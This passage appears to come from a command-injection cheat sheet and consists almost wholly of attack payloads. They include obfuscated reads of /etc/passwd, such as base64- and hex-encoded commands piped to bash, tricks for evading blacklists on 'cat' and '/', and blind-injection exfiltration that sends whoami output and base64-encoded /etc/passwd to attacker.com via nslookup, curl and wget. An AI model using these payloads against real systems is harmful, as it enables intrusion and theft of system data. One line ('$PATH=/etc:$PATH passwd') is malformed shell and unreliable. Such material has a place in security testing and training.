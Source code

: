 #### Command Obfuscation

```bash
# String concatenation
c'a't /etc/passwd
c"a"t /etc/passwd
c\at /etc/passwd

# Variable expansion
a=c;b=at;$a$b /etc/passwd

# Wildcards
/bin/c?t /etc/passwd
/bin/c*t /etc/passwd
/???/c?t /etc/passwd

# Base64 encoding
echo Y2F0IC9ldGMvcGFzc3dk | base64 -d | bash

# Hex encoding
echo 636174202f6574632f706173737764 | xxd -r -p | bash
```

#### Filter Evasion

```bash
# If 'cat' is blacklisted
tac /etc/passwd | tac
more /etc/passwd
less /etc/passwd
head /etc/passwd
tail /etc/passwd
nl /etc/passwd
od -c /etc/passwd
awk '{print}' /etc/passwd
sed '' /etc/passwd

# If '/' is blacklisted
cat ${HOME:0:1}etc${HOME:0:1}passwd
cat $(echo -n /etc/passwd)

# Using environment variables
$PATH=/etc:$PATH passwd
```

### Blind Command Injection

```bash
# DNS exfiltration
nslookup $(whoami).attacker.com

# Time-based
if [ $(whoami) = "root" ]; then sleep 5; fi

# HTTP exfiltration
curl http://attacker.com/$(whoami)
wget http://attacker.com/$(cat /etc/passwd | base64)
```

---